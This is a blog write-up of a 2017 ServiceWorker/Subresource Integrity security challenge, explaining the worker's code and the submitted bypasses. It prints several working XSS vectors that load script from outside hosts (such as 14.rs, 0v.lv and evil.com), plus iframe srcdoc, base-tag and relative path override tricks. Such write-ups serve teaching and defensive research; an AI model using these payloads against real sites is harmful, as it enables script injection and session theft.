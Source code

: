 Title: Challenge Write-up: Subresource Integrity in Service Workers
Date: 2017-03-25
Author: Frederik
Slug: sw-sri-challenge

For those who have not participated in my [challenge](https://serviceworker.on.web.security.plumbing/), this document is about implementing security features in ServiceWorkers. A
ServiceWorker (SW) is a type of [Web Worker](https://duckduckgo.com/?q=web+worker&t=ffab&ia=web) that can intercept and modify HTTP requests. A ServiceWorker is allowed to see requests towards your own as well as other origins – though it [must not](https://frederik-braun.com/publications/thesis/Thesis-Origin_Policy_Enforcement_in_Modern_Browsers.pdf) be able to see the response from cross-origin resources.

The idea of the [challenge](https://serviceworker.on.web.security.plumbing/) was to write a tiny ServiceWorker that would intercept all HTTP requests and cancel everything except those blessed by a white-list. On top of that, external resources (e.g., scripts) must only be loaded with [Subresource Integrity](https://www.w3.org/TR/SRI/) (SRI). This can be easily achieved, because `fetch()` supports SRI out of the box:
If you supply the `integrity` keyword in the options parameter to `fetch`, it will automatically fail unless the hashes match:

Here's the relevant code snippet with some extra comments
```js
self.addEventListener("fetch", function(event) {
  let request = event.request;
  if (request.method === "GET") {
    // check if URL in pre-defined whitelist at the top of the document:
    if (request.url in INTEGRITY_METADATA) { 
      // if HTML does not contain integrity=, use from the whitelist
      let sriHash = request.integrity || INTEGRITY_METADATA[request.url];
      let fetchOptions = {
        integrity: sriHash,
        method: request.method,
        mode: "cors", // if we have integrity metadata, it should also use cors
        credentials: "omit", // ...and omit credentials
        cache: "default",
      };
      // ServiceWorker lets the document proceed fetching the resource, but with modified fetch options
      event.respondWith(fetch(request, fetchOptions));
```

The goal of the challenge was to make the document execute your script - essentially bypassing the ServiceWorker. To facilitate such an attack, I implemented a simple reflected Cross-Site-Scripting (XSS) vulnerability and hinted to its existence in the rules. XSS in general allows executing all kinds of scripts. Inline as well as from a specified URL. Because we wanted the script to go through the ServiceWorker, we have also hardened the challenge with a Content Security Policy (CSP). Content Security Policy is a mechanism to restrict how scripts can be run from a website. The policy that I used disallowed all kinds of inline scripts in tags or event handlers (e.g., `<script>...</script>` or `onerror=`).
This essentially required an attacker to request a script that is living on their own domain, thus forcing them through the ServiceWorker.

Unless, of course, the attacker was able to find a browser bug involving an arcane constellation of markup that does *not* trigger the Fetch Event declared in the ServiceWorker.

### PEBKAC

As it turns out, most browsers bypass the ServiceWorker when reloading a page with CTRL+SHIFT+R. Not only did this cause some invalid submissions, it also took me until the day I am trying to summarize my finding to notice that I have incorrectly approved some attacks when they do not actually work. This affects the following submissions:
[Mario Heiderich](https://twitter.com/0x6D6172696F)'s vector is `<svg><script/href=//14.rs></script>` (which is even shorter on Firefox, because you can leave the closing `</script>` tag out).

*But it does not work* unless you hard-refresh. But with a hard-refresh, even `<script/href=//14.rs></script>` works, because, well, hard-refreshes bypass the ServiceWorker.

The same goes for [Artur Janc](https://twitter.com/arturjanc/)'s submission. His approach looks like this `<base href="//14.rs"><script src=/></script>`, using Mario's short domain name. It also falls flat when the ServiceWorker is correctly installed.

I'm sincerely sorry, but I have to gently wipe you off the leader board. I admit I should have done a better job at testing.
I'm very sure you would have found a valid solution, if I had judged the challenge more properly.

### Bypassing the Service Worker

Now, let's head on to the first submission.
First blood was drawn by [Manuel Caballero](https://twitter.com/magicmac2000/), who figured out that a script loaded in an `<iframe srcdoc=..>` is not going through the ServiceWorker. This is somewhat weird, given that a script running `navigator.serviceWorker.getRegistrations()` in this iframe returns the active ServiceWorker at sri-worker.js.

[Masato Kinugawa](https://twitter.com/kinugawamasato) promptly followed suite with the same attack vector. He also noted that a simple `<script src=evil.com></script>`-style vector also works in Private Browsing mode. This stems from the fact that the XSS vulnerability usually wins a race with the ServiceWorker registration. Note that the ServiceWorker must be registered from a separate JS file, since inline scripts are disallowed by CSP. This registration happens asynchronously and has to be faster then another script tag that is controlled by the attacker. It's certainly noteworthy, but I did not count this as a valid submission: In a real life scenario, an attacker is only really successful if the victim has a session associated with the web page and has also visited the web page before. In this case, the ServiceWorker is already registered and the bootstrapping is a no-op.
I admit that this is a clear gap in my rules, so kudos to [Masato Kinugawa](https://twitter.com/kinugawamasato) (and some other folks who found this issue later on)!

[Alex Inführ](https://twitter.com/insertScript/) sent a solution that also used iframe srcdoc, but added the sandbox attribute, which cost him a few more characters.

In a similar vain, [Eduardo Vela](https://twitter.com/sirdarckcat/) sent me to [https://0v.lv/?e](https://0v.lv/?e), which contains an iframe sandbox, that links to a conventional XSS on the domain. The trick here, is that navigations from an iframe sandbox pointing to a website with a Service Worker will skip trigger the ServiceWorker. This is a nice find, but wasn't considered a valid solution as it required user interaction.

### Implementation flaws and assumptions

Having looked at those submissions that the ServiceWorker does not see, let's take another look at the rest of its source code. Some submissions also found implementation bugs. Here's the code right after the white-list check. Again, I'll add some extra comments.

```js
let LOCALFILES = {};
LOCALFILES["/style.css"] = "sha384-q2bP418TFL/LOAo5XrjD7OciiOi63q6OKnDH67oOGNkWc/rvUaWpynoatxySxEPF";
LOCALFILES["/sri-sha.js"] = "sha384-TKCoLrAkiPTzJzLNLqSmFqC0XA9PCMUwSYg2E/FosZEy7h26mwR9wONvTZ9Zvtj9";
LOCALFILES["/initialize-sw.js"] = "sha384-32IhktVnY10EwfUKtlhYBUoBysS2QM8cmW1bW2HENM3nIEmGDNwpkqdmpaE2jF7Z";#
LOCALFILES["/sri-worker.js"] = "sha384-rRSq8lAgvvL9Tj617AxQJyzf1mB0sO0DfJoRJUMhqsBymYU3S+6qW4ClBNBIvhhk"
let parsed = new URL(request.url);
// other free pass: same-origin
if (parsed.origin === ownLocation.origin) {
  // we allow ourselves (the forward-slash) and paths required for the website to work. some stylesheets etc.
  if ((parsed.pathname === '/') || (parsed.pathname in LOCALFILES)) {
    // note that these requests do not require integrity. the integrity metadata in the object was left out here. 
    // this is mostly a decoy "bug", which I was hoping would confuse people.
    console.log("Fetching same-origin thingy", request.url)
    event.respondWith(fetch(request));
  } else {
    console.log(`[${LOGNAME}] Can not fetch ${request.url}. No integrity metadata.`);
    event.respondWith(Response.error());
  }
} else {
  // cross-origin: blocked.
  console.log(`[${LOGNAME}] Can not fetch ${request.url}. No integrity metadata.`);
 event.respondWith(Response.error());
}
```

To briefly summarize, we first perform a same-origin check and then allow files in the same origin that are contained in the `LOCALFILES` object or the file `/`. Even though the object contains hashes, these are never added to the request and thus never checked. I did not think of this case as a vulnerability and mostly left this inconsistency as a decoy.
For every other type of request the code responds with a network error, i.e.,`Response.error()`.

### Thinking outside the box

This fine submission reached me when I was leaving the subway on my way home and I *really* did not understand what was going on:

[https://serviceworker.on.web.security.plumbing/index.php/?name=&lt;script/src=//0v.lv>&lt;/script>](https://serviceworker.on.web.security.plumbing/index.php/?name=%3Cscript%2Fsrc%3D%2F%2F0v.lv%3E%3C%2Fscript%3E)

The really important thing to note here is that the request URL contains `/index.php/?name=`.
This trick is called [Relative Path Override (or RPO)](http://www.thespanner.co.uk/2014/03/21/rpo/). A technique first described and coined by [Gareth Heyes](https://twitter.com/garethheyes). RPO attacks the fact that the script is loading resources from a relative path `initialize-sw.js`. The attacker providing a different request path, can thus mess up the additional resource loading. The website will attempt to load the necessary files from `/index.php/initialize-sw.js` instead and therefore fails.

This is of course extra nasty, when those scripts behind relative paths are implementing security features.
A truly nice find, by [Eduardo Vela](https://twitter.com/sirdarckcat/)!


### Conclusions & Acknowledgments

It's interesting to use fresh technologies like ServiceWorkers, Subresource Integrity and Content Security Policy (heh) in combination and see what happens. Building your own security solutions on top of the web platform is a very complex undertaking and makes you realize that those features were created ad-hoc in a very unsystematic way. As a result of that, I'd advise you not to implement hard guarantees about regulating `fetch()` calls using Service Workers.

But it's always great fun to think of something interesting and then have yourself proven wrong in the real world. Thanks to [Anne van Kersteren](https://twitter.com/annevk/) for making me look into an implementation of Subresource Integrity (and `require-sri-for`) with Service Workers. And of course, thanks to all the participants that tried (and succeeded) to break the implementation in various ways.

If you want mandatory Subresource Integrity, I recommend you look into the SRI2 working draft. The `require-sri-for` CSP extension has been implemented in Firefox and Chrome, but in both cases it's behind a flag (`security.csp.experimentalEnabled` and *experimental Web Platform features* respectively)
